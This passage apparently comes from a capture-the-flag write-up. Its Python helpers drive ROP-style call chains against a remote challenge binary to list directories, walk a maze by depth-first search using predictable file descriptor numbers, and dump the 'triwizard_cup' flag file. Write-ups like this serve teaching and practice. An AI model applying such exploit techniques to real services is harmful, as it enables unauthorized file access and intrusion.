 ```python
 for _ in range(10):
  name = REMOTE.recvline(keepends=False).decode()

  # Skip duplicates, if we get any it just means there are < 10 entries
  if name != last:
   res.append(name)
   last = name

 # If we only get ".." it means there was nothing after "..", so this dir is empty
 if res == ['..']:
  return []
 return res
```

One last thing before implementing our search function: we need to be able to
read the contents of the final file we are looking for (`triwizard_cup`). This
is just a matter of `openat()` + `read()` + `write()`. Or if we want to be cool,
`openat()` + `read_exact()` + `write_exact()`, which is nicer (plus those
functions already implemented for us).

```python
def dumpfd(fd: int):
 chain = call('read', fd, RW_BUF, 0x100)
 chain += call('write_exact', 1, RW_BUF, 0x100)
 send_chain(chain)
 return REMOTE.recvn(0x100)
```

Now we can implement the actual search function. As mentioned at the beginning,
a recursive [DFS][wiki-dfs] is the simplest way to go:

- Start at the `/tmp/maze/entry` directory opening it with
  `openat(AT_FDCWD, "entry", O_RDONLY, 0)`.
- Iterate the entries of the current directory.
- For each entry:
  - If its name is `"triwizard_cup"`, open and dump the file with `dumpfd()`.
  - Otherwise, it's a directory: open it, explore it recursively and finally
    close it.

Since the program closes every file descriptor higher than `1` after creating
the maze, and `open`/`openat` always return the lowest free FD number, we know
that the first `openat` will return `2`. Each subsequent `openat` will return a
FD that is 1 higher than the last. Therefore, if we start with `dirfd = 2`, the
first entry we open will get FD `3`. If we then close it after exploring it, the
next entry will also get FD `3`, as well as all the other entries of the current
`dirfd`. This way, we don't have to worry about finding out the FD returned by
`readdir`. It's all 100% predictable.

Here's the search function:

```python
# Recursive DFS until we get to "triwizard_cup"
def explore_maze(dirfd: int):
 for fname in listdir(dirfd):
  if fname == 'triwizard_cup':
   # This is the file we were looking for: dump it
   openat(dirfd, fname)
   return dumpfd(dirfd + 1)

  # Otherwise, this is a directory: explore it recursively
  openat(dirfd, fname)
  flag = explore_maze(dirfd + 1)
  if flag is not None:
   return flag

  # Close current directory and keep going
  close(dirfd + 1)
```

[man-1-file]: https://manned.org/man/file.1
[man-1-readelf]: https://manned.org/man/readelf.1
[man-2-close_range]: https://manned.org/man/close_range.2
[man-2-getrandom]: https://manned.org/man/getrandom.2
[man-2-getrlimit]: https://manned.org/man/getrlimit.2
[man-2-mkdirat]: https://manned.org/man/mkdirat.2
[man-2-mmap]: https://manned.org/man/mmap.2
[man-2-openat]: https://manned.org/man/openat.2
[man-2-prctl]: https://manned.org/man/prctl.2
[man-2-readdir]: https://manned.org/man/readdir.2
[man-2-seccomp]: https://manned.org/man/seccomp.2
[seccomp-tools]: https://github.com/david942j/seccomp-tools
[wiki-bfs]: https://en.wikipedia.org/wiki/Breadth-first_search
[wiki-dfs]: https://en.wikipedia.org/wiki/Depth-first_search